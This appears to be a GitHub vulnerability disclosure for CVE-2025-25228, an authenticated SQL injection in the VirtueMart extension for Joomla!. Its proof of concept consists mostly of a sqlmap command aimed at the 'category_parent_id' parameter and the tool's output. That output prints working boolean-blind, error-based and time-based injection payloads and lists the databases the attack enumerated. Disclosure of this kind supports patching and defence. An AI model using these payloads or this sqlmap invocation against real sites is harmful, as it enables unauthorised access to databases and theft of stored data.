

# CVE-2025-25228: SQL injection in VirtueMart 1.0.0 - 4.4.7 for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-25228

**VirtueMart:** https://extensions.joomla.org/extension/virtuemart/

## Introduction
An authenticated (administrator) SQLi vulnerability exists in VirtueMart for Joomla! v4.2.18 via the 'category_parent_id' parameter under Product Category.

## POC
To exploit this vulnerability go to 'VirtueMart Control Panel >> Products >> Categories >> Category Name >> Pagination >> Edit' and save the edit request (req.txt).



**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --dbs --dbms=mysql -p 'category_parent_id' --batch

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
Parameter: MULTIPART category_parent_id ((custom) POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: ------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_name"

Pagination

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

(SELECT (CASE WHEN (7632=7632) THEN 0 ELSE (SELECT 2787 UNION SELECT 4392) END))

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

0 AND GTID_SUBSET(CONCAT(0x716a627a71,(SELECT (ELT(4979=4979,1))),0x716a767171),4979)

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

0 AND (SELECT 4218 FROM (SELECT(SLEEP(5)))cNIy)
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
